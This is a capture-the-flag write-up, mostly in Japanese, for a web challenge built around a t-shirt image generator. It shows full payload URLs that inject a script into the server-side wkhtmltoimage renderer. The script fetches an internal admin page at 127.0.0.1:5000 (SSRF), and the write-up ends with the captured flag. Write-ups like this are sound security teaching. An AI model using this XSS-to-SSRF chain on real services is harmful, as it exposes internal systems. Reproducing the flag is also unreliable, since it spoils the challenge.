



# Hacker Ts:Web:422pts
We all love our hacker t-shirts. Make your own custom ones.  

**Connect with:** 
- [http://challenge.nahamcon.com:31242](http://challenge.nahamcon.com:31242/)  

# Solution
Tシャツ作成サイトのようだ。  
入力した文字列でTシャツ画像を表示できる。  
Hacker Ts  
[site1.png](site/site1.png)  
試しに`Satoki`を入力してみる。  
[site2.png](site/site2.png)  
URLは`http://challenge.nahamcon.com:31242/exploit?text=Satoki&color=%2324d600`であった。  
Adminページがあるが内部専用(localhost:5000)のようだ。  
[site3.png](site/site3.png)  
SSRFを狙う。  
ここで`<s>atoki`をTシャツの文字列として入力すると以下のようであった。  
  
HTMLタグが生きている。  
scriptタグでページをgetできそうだと気づく。  
以下のURLで行う。  
GETした後、innerHTMLで画像として取得できるよう表示している。  
```
http://challenge.nahamcon.com:31242/exploit?text=<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://challenge.nahamcon.com:31242", true);xhr.onload = function () {document.documentElement.innerHTML = xhr.responseText;};xhr.send(null);</script>Satoki&color=%2324d600
```
  
サーバーサイドでXSSができることが分かった。  
SSRFにつなげればよい。  
URLを`abc`などにするとwkhtmltoimageのエラーが起こったためオリジン制限は厳しくないと考えられる。  
あとは`http://127.0.0.1:5000/admin`をGETしてやればよい。  
```
http://challenge.nahamcon.com:31242/exploit?text=<script>var xhr = new XMLHttpRequest();xhr.open("GET", "http://127.0.0.1:5000/admin", true);xhr.onload = function () {document.documentElement.innerHTML = xhr.responseText;};xhr.send(null);</script>Satoki&color=%2324d600
```
flagが得られた。  
  

## flag{461e2452088eb397b6138a5934af6231}